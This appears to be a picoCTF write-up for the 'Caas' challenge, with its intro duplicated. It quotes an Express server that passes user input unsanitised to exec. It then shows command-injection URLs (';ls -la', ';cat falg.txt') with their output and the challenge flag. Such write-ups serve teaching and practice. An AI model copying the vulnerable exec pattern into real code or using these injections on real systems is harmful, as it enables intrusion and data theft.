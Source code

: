 # Caas

## Description

Now presenting [cowsay as a service](https://caas.mars.picoctf.net/ "Link to CTF challenge homepage")

Challenge Endpoints:

Download index.js	[index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js "CTF Challenge JavaScript File")

## Hints

* (None)

## Walkthrough


# Caas

## Description

Now presenting [cowsay as a service](https://caas.mars.picoctf.net/ "Link to CTF challenge homepage")

Challenge Endpoints:

Download index.js	[index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js "CTF Challenge JavaScript File")

## Hints

* (None)

## Walkthrough

If we visit the [link provided](https://caas.mars.picoctf.net/ "CTF challenge link") we'll see a website that allows us to print a message in cowsay](https://en.wikipedia.org/wiki/Cowsay "Wikipedia page for Cowsay").

> Cowsay as a Service
>
> Make a request to the following URL to cowsay your message:
>
> https://caas.mars.picoctf.net/cowsay/{message}

[Cowsay](https://en.wikipedia.org/wiki/Cowsay "Wikipedia page for Cowsay") is a program that generates ASCII art based on a custom message provided by the user. By default, the message appears above a cows head, like so:

```
 ______________________________
< This is an example of Cowsay >
 ------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

In Linux we can use Cowsay with the command ```cowsay <MESSAGE>```.

Given the above information, we can assume that the website provided for this challenge is using any message we provide as an argument to the ```cowsay``` command. We can verify this by viewing the contents of the [script provided in the challenge description](./index.js "CTF challenge script").

```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

Here, we can see that our message gets passed to the cowsay command and is executed by JavaScripts ```exec``` function, but it is not sanitized in anyway. Meaning we can potentially exploit this vulnerability.

```javascript
exec(`/usr/games/cowsay ${req.params.message}
```

We can verify this by writing the message "hi" followed by the command seperator ```;``` and a command such as ```ls -la``` to list all contents in the current directory.

```
https://caas.mars.picoctf.net/cowsay/hi;ls%20-la

 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
total 52
drwxr-xr-x  1 root root  4096 Jun 16  2021 .
drwxr-xr-x  1 root root  4096 Jul 14 15:19 ..
-rw-r--r--  1 root root    14 May  5  2021 .dockerignore
-rw-r--r--  1 root root   278 May  5  2021 Dockerfile
-rw-r--r--  1 root root    73 May  5  2021 falg.txt
-rw-r--r--  1 root root   424 Jun 16  2021 index.js
drwxr-xr-x 52 root root  4096 May  5  2021 node_modules
-rw-r--r--  1 root root   135 May  5  2021 package.json
drwxr-xr-x  2 root root  4096 May  5  2021 public
-rw-r--r--  1 root root 14600 May  5  2021 yarn.lock
```

```
https://caas.mars.picoctf.net/cowsay/hi;cat%20falg.txt

 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```
